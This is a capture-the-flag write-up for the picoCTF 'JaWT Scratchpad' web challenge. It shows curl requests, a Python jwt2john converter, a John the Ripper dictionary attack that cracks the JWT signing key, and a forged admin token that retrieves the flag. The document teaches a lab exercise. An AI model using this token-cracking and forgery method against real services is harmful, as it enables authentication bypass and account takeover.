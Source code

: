 # JaWT Scratchpad
Web Exploitation, 400 points

## Description:
> Check the admin scratchpad!


## Solution: 

Let's connect to the provided website:

```console
root@kali:/media/sf_CTFs/pico/JaWT_Scratchpad# curl https://2019shell1.picoctf.com/problem/37903/
<!doctype html>
<html>
        <title> JaWT - an online scratchpad </title>
        <link rel="stylesheet" href="/static/css/stylesheet.css">
        <body>
                <header><h1>JaWT</h1> <br> <i><small>powered by <a href="https://jwt.io/">JWT</a></small></i></header>
                <div id="main">
                        <article>
                                <h1>Welcome to JaWT!</h1>

                                <p>
                                        JaWT is an online scratchpad, where you can "jot" down whatever you'd like! Consider it a notebook for your thoughts. <b style="color:blue "> JaWT works best in Google Chrome for some reason. </b>
                                </p>

                                <p>
                                        You will need to log in to access the JaWT scratchpad. You can use any name, other than <code>admin</code>... because the <code>admin</code> user gets a special scratchpad!
                                </p>
                                <br>
                                <form action="#" method="POST">
                                        <input type="text" name="user" id="name">
                                </form>
                                <br>

                                <h2> Register with your name! </h2>
                                <p>
                                        You can use your name as a log in, because that's quick and easy to remember! If you don't like your name, use a short and cool one like <a href="https://github.com/magnumripper/JohnTheRipper">John</a>!
                                </p>
                        </article>
                        <nav></nav>
                        <aside></aside>
                </div>
                <script> window.onload = function() { document.getElementById("name").focus(); }; </script>
        </body>
</html>
```

If we try to login as `admin`, we get an error:
```console
root@kali:/media/sf_CTFs/pico/JaWT_Scratchpad# curl "https://2019shell1.picoctf.com/problem/37903/"  -H "Content-Type: application/x-www-form-urlencoded"  --data "user=admin"
...
    <p style="color:red">
            YOU CANNOT LOGIN AS THE ADMIN! HE IS SPECIAL AND YOU ARE NOT.
    </p>
...
```

However, logging in as another user is allowed:
```console
root@kali:/media/sf_CTFs/pico/JaWT_Scratchpad# curl "https://2019shell1.picoctf.com/problem/37903/"  -H "Content-Type: application/x-www-form-urlencoded"  --data "user=john" -v
*   Trying 3.15.247.173...
* TCP_NODELAY set
* Expire in 200 ms for 4 (transfer 0x558ed4e47d10)
* Connected to 2019shell1.picoctf.com (3.15.247.173) port 443 (#0)
* ALPN, offering h2
* ALPN, offering http/1.1
* successfully set certificate verify locations:
*   CAfile: none
  CApath: /etc/ssl/certs
* TLSv1.3 (OUT), TLS handshake, Client hello (1):
* TLSv1.3 (IN), TLS handshake, Server hello (2):
* TLSv1.2 (IN), TLS handshake, Certificate (11):
* TLSv1.2 (IN), TLS handshake, Server key exchange (12):
* TLSv1.2 (IN), TLS handshake, Server finished (14):
* TLSv1.2 (OUT), TLS handshake, Client key exchange (16):
* TLSv1.2 (OUT), TLS change cipher, Change cipher spec (1):
* TLSv1.2 (OUT), TLS handshake, Finished (20):
* TLSv1.2 (IN), TLS handshake, Finished (20):
* SSL connection using TLSv1.2 / ECDHE-RSA-AES256-GCM-SHA384
* ALPN, server accepted to use http/1.1
* Server certificate:
*  subject: OU=Domain Control Validated; OU=PositiveSSL Wildcard; CN=*.picoctf.com
*  start date: Oct 26 00:00:00 2018 GMT
*  expire date: Nov  1 23:59:59 2020 GMT
*  subjectAltName: host "2019shell1.picoctf.com" matched cert's "*.picoctf.com"
*  issuer: C=GB; ST=Greater Manchester; L=Salford; O=COMODO CA Limited; CN=COMODO RSA Domain Validation Secure Server CA
*  SSL certificate verify ok.
> POST /problem/37903/ HTTP/1.1
> Host: 2019shell1.picoctf.com
> User-Agent: curl/7.64.0
> Accept: */*
> Content-Type: application/x-www-form-urlencoded
> Content-Length: 9
>
* upload completely sent off: 9 out of 9 bytes
< HTTP/1.1 302 FOUND
< Server: nginx
< Date: Sun, 13 Oct 2019 11:28:56 GMT
< Content-Type: text/html; charset=utf-8
< Content-Length: 209
< Connection: keep-alive
< Location: https://2019shell1.picoctf.com/
< Set-Cookie: jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiam9obiJ9._fAF3H23ckP4QtF1Po3epuZWxmbwpI8Q26hRPDTh32Y; Path=/
< Strict-Transport-Security: max-age=0
<
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>Redirecting...</title>
<h1>Redirecting...</h1>
* Connection #0 to host 2019shell1.picoctf.com left intact
<p>You should be redirected automatically to target URL: <a href="/">/</a>.  If not click the link.
```

Notice the cookie we receive upon a successful login:
```
< Set-Cookie: jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiam9obiJ9._fAF3H23ckP4QtF1Po3epuZWxmbwpI8Q26hRPDTh32Y; Path=/
```

"JWT" stands for "[JSON Web Token](https://en.wikipedia.org/wiki/JSON_Web_Token)":

> JSON Web Token (JWT) is an Internet standard for creating JSON-based access tokens that assert some number of claims. For example, a server could generate a token that has the claim "logged in as admin" and provide that to a client. The client could then use that token to prove that it is logged in as admin. The tokens are signed by one party's private key (usually the server's), so that both parties (the other already being, by some suitable and trustworthy means, in possession of the corresponding public key) are able to verify that the token is legitimate.

We can decode the token using an [online tool](https://jwt.io/) or via the CyberChef API:
```
root@kali:/media/sf_CTFs/pico/JaWT_Scratchpad# export NODE_PATH=$(npm root --quiet -g)
root@kali:/media/sf_CTFs/pico/JaWT_Scratchpad# node
> const chef = require("cyberchef");
undefined
> chef.JWTDecode("eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiam9obiJ9._fAF3H23ckP4QtF1Po3epuZWxmbwpI8Q26hRPDTh32Y");
{
    "user": "john"
}
>
```

We can change the user to "admin", but we'll need to sign the token and we don't have the key. That's where "JohnTheRipper" (referenced in the website itself) comes in.

[This post](https://security.stackexchange.com/questions/134200/cracking-a-jwt-signature) explains how to brute force JWT using JohnTheRipper.

First, we need to convert the token to a format that JohnTheRipper can understand, using the following script:

```python
# https://security.stackexchange.com/questions/134200/cracking-a-jwt-signature
# https://github.com/Sjord/jwtcrack/blob/master/jwt2john.py
import sys
from jwt.utils import base64url_decode
from binascii import hexlify


def jwt2john(jwt):
    """
    Convert signature from base64 to hex, and separate it from the data by a #
    so that John can parse it.
    """
    jwt_bytes = jwt.encode('ascii')
    parts = jwt_bytes.split(b'.')

    data = parts[0] + b'.' + parts[1]
    signature = hexlify(base64url_decode(parts[2]))

    return (data + b'#' + signature).decode('ascii')


if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Usage: %s JWT" % sys.argv[0])
    else:
        john = jwt2john(sys.argv[1])
        print(john)
```

Running it:
```console
root@kali:/media/sf_CTFs/pico/JaWT_Scratchpad# python jwt2john.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiam9ob
iJ9._fAF3H23ckP4QtF1Po3epuZWxmbwpI8Q26hRPDTh32Y > jwt.john
root@kali:/media/sf_CTFs/pico/JaWT_Scratchpad# cat jwt.john
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiam9obiJ9#fdf005dc7db77243f842d1753e8ddea6e656c666f0a48f10dba8513c34e1df66
```

Now we run `john` to try and locate the key (we'll use a dictionary attack):

```console
root@kali:/media/sf_CTFs/pico/JaWT_Scratchpad# ~/utils/john/run/john jwt.john  --wordlist=/root/utils/dictionaries/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 256/256 AVX2 8x])
Warning: OpenMP is disabled; a non-OpenMP build may be faster
Press 'q' or Ctrl-C to abort, almost any other key for status
ilovepico        (?)
1g 0:00:00:05 DONE (2019-10-13 14:44) 0.1996g/s 1476Kp/s 1476Kc/s 1476KC/s ilovepinkxxx..ilovepatopollo
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

We modify the user to "admin" and resign with the key (`ilovepico`):

```
> jwt = { "user": "admin" };
{ user: 'admin' }
> chef.JWTSign(jwt, ["ilovepico", "HS256"]);
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4iLCJpYXQiOjE1NzA5Njg2NDB9.77pnOGlEdwL7MtxHHS6ZKYD5z1O8w_-SFnzPGyNo9t8
```

We resend the request to the website and receive the flag:

```console
root@kali:/media/sf_CTFs/pico/JaWT_Scratchpad# curl "https://2019shell1.picoctf.com/problem/37903/#"  -H "Content-Type: application/x-www-form-urlencoded"  --data "user=admin" -H "Cookie: jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4iLCJpYXQiOjE1NzA5Njg2NDB9.77pnOGlEdwL7MtxHHS6ZKYD5z1O8w_-SFnzPGyNo9t8" -s | grep pico
                                        <textarea style="margin: 0 auto; display: block;">picoCTF{jawt_was_just_what_you_thought_9ed4519dee8140de7a186a5df5a08d6e}</textarea>
```

